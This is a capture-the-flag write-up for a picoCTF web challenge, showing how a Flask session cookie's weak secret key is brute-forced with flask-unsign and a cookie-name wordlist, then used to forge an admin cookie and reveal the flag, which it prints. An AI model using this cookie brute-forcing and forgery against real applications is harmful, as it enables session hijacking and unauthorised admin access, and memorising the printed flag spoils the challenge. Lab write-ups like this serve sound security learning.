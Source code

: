 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py)
http://mercury.picoctf.net:44693/

# Solution
- View server.py :
```python
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp
```
=> From this, it is clear we need to become admin to swipe that flag!

-  I found [flask-unsign](https://pypi.org/project/flask-unsign/), which is a tool that will help us uncover the secret key.
- Let's install flask-unsign.
```
$ pip3 install flask-unsign
```
- I enter a cookie "snickerdoodle" and receive cookies:
```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zqpq_g.W7vzY-R8twyHc_ry9h6PTrZqmP4
```
- i decode the cookies : 
```
flask-unsign -d -c "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zqpq_g.W7vzY-R8twyHc_ry9h6PTrZqmP4"
{'very_auth': 'snickerdoodle'}
```
- Now let's continue to scroll down the flask-unsign website and we see "Unsigning (Brute Forcing Secret Keys)"
- I also made a wordlist.txt of the cookie names found in server.py (this will serve as my word list to brute force the secret key)
- FASTER WAY THAT I USED TO FIND THE SECRET KEY :
```
flask-unsign -u --server http://mercury.picoctf.net:44693/ --wordlist wordlist_cookies.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zqpykg.6hXZiAAbzjX3ZewPzegDesahUJU
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter'
```
- Oh, the secret key!! In my case, it was 'butter'
- Continue Signing (Session Manipulation)
```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZqpzPA.qE-sogWrEANnECZjrI4-WS5S1N4
```
- Copy and paste cookie into the cookie value 
- Reload the page to receive flag
> Flag: **picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}**


## References
- wordlist.txt
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```